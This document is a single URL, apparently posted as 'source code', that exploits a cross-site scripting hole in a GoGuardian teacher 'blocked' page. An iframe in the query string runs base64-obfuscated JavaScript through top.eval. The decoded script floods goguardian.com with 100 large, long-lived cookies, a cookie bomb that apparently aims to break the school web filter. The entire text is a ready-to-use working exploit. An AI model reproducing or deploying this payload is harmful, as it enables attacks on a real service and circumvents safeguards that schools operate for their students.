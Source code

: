 https://student.goguardian.com/teacher/blocked.html?cs=[{%22name%22:%20%22%22},%20{%22name%22:%20%22%3Ciframe%20srcdoc=\%22%3Cscript%3Etop.eval(atob(`Zm9yKGxldCBpID0gMDsgaSA8IDEwMDsgaSsrKSB7CiAgZG9jdW1lbnQuY29va2llID0gYHgke2l9PSR7ZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoY3J5cHRvLmdldFJhbmRvbVZhbHVlcyhuZXcgVWludDhBcnJheSgyNSAqIDI1KSkpKX07ZXhwaXJlcz0ke25ldyBEYXRlKDJlMTQpLnRvVVRDU3RyaW5nKCl9O2RvbWFpbj1nb2d1YXJkaWFuLmNvbTtwYXRoPS9gOwp9`))%3C/script%3E\%22%3E%3C/iframe%3E%22}]
